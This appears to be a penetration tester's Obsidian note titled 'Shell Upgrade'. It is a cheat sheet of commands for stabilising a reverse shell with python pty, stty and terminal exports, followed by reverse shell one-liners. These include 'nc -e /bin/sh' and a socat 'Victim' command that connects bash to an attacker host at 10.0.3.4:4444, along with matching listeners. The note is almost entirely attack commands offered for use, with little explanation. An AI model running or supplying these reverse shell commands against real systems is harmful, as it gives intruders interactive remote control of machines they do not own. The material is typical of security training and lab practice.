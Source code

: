 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Shell Upgrade]]  
___

## Description:  


### Python

**In reverse shell


```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z

```
**In Kali

```
$ echo $TERM

$stty -a

$ stty raw -echo

$ fg

```
#**In reverse shell

```
$ reset

$ export SHELL=bash

$ export TERM=xterm-256color

$ stty rows 34 columns 118

python3 -c 'import pty; pty.spawn("/bin/bash")'

```
### Netcat:

```
nc -e /bin/sh 10.0.3.4 4444

nc -lvp 4444

```
### Socat

```
Listen:

socat [file:`tty`,raw,echo=0](file://%60tty%60,raw,echo=0) tcp-listen:4444

Victim:

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (12:36 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
